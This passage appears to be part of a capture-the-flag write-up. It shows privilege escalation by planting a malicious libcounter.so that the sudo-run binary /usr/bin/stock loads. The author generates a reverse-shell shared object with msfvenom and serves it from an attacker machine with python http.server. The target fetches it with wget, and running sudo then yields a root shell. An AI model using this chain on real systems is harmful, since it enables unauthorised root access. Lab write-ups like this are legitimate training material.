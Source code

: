 ```
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```

the file was missed now create malicious code revshell using name libcounter.so to priv esc and get revshell . Using metasploit to create revshell

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.49 LPORT=1337 -f elf-so -o libcounter.so`

So now go this path `/home/rektsu/.config/` and upload your shell have been created by metasploit 


## Your Linux

`python3 -m http.server 80`

## SSH / Revhsell
`wget http://10.10.14.49/libcounter.so`

now run your netcat on your linux terminal and run `sudo /usr/bin/stock`

And will get access root from the system because you added malicious file in libcounter.so file at .config because the binary `/usr/bin/stock` compile with this file libcounter.so and that's why this happened 

![](images/2024-01-15-22-54-59.png)
